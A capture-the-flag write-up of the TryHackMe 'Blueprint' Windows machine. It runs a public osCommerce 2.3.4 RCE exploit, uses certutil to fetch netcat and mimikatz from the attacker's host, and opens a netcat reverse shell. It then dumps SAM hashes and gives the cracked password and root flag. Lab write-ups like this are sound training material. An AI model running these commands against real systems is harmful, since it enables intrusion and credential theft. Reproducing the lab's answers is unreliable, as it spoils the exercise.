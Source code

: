 ```yaml
---
layout: post
title: Blueprint
date: 2023-03-09 12:00 +0700
categories: [THM, easy]
---
```


### Introduction

[Blueprint] is an easy Windows CTF machine on TryHackMe.
I completed the machine without using metasploit, but you can use It to completed too.

![blueprint](https://tryhackme-images.s3.amazonaws.com/room-icons/90243c256ba1d4eb403bc206e376f238.jpeg)



---

Let's start scaning the machine with nmap.

```sh
nmap -sSV -p- -open --min-rate 5000 <IP> -oN <outputfile.txt>
```

We can see like is normal in Windows machines to have a lot of ports open.

![Scan](/images/THM/blueprint/Captura.PNG)

This time we are going to focus on the web because we can't see the SMB service as a guest.

If we go to the web server hosted in port 8080, we can find there is an **OsCommerce** hosted.

![Web](/images/THM/blueprint/Captura2.PNG)

Researching a little, we can find that there is an exploit for the version is hosting the machine.

The [exploit] is the RCE type and *exploit the install.php finish process by injecting php payload into the db_database parameter & read the system command output from configure.php*

![exploit search](/images/THM/blueprint/Captura3.PNG)

So let's try to download it and run it.

```sh
python3 osCommerce2_3_4RCE.py http://<IP>:8080/osCommerce2_3_4/catalog/
```

We can see that it work and we got a shell.

![exploit execution](/images/THM/blueprint/Captura4.PNG)

Let's upgrade our shell!

For that, we will upload netcat executable to execute It and get a reverse shell. We will do It with the in-built Windows command **certutil** to download the executable from our machine.

For serve the binary, we will open a python web server.

```sh
certutil -urlcache -f http//<OUR IP>/<nc or ncat binary> <binary same name>
dir
```

![ncat download](/images/THM/blueprint/Captura6.PNG)

And we will do the same with mimikatz executable.

[Mimikatz] is a tool that extracts passwords stored in memory, among other things.

```sh
certutil -urlcache -f http//<OUR IP>/mimikatz.exe mimikatz.exe
```

![mimikatz download](/images/THM/blueprint/Captura7.PNG)

Time to get our interactive reverse shell.

```sh
nc.exe/ncat.exe <OUR IP> <PORT> -e cmd
```

![revshell](/images/THM/blueprint/Captura8.PNG)

And now we can execute mimikatz to extract the password from the user **Lab**.

```sh
mimikatz.exe
```

![mimikatz](/images/THM/blueprint/Captura9.PNG)

To do that we will be using **lsadump:sam** and this command will dump the users passwords hash.

```sh
lsadump::sam
```

![Hashdump](/images/THM/blueprint/Captura10.PNG)

Again like in other WriteUps I will be using [crackstation] to crack the password.

![cracked password](/images/THM/blueprint/Captura11.PNG)

- "Lab" user NTML hash decrypted
>Answer: googleplus

```sh
dir C:\Users\Administrator\Desktop
type C:\Users\Administrator\Desktop\root.txt.txt
```

We can go to the Administrator folder and show the flag.

With this we've completed the machine.

![root flag](/images/THM/blueprint/Captura5.PNG)

- root.txt
>Answer: THM{aea1e3ce6fe7f89e10cea833ae009bee}

 [blueprint]: https://tryhackme.com/room/blueprint
 [crackstation]:https://crackstation.net/
 [exploit]:https://github.com/nobodyatall648/osCommerce-2.3.4-Remote-Command-Execution
 [mimikatz]:https://github.com/gentilkiwi/mimikatz
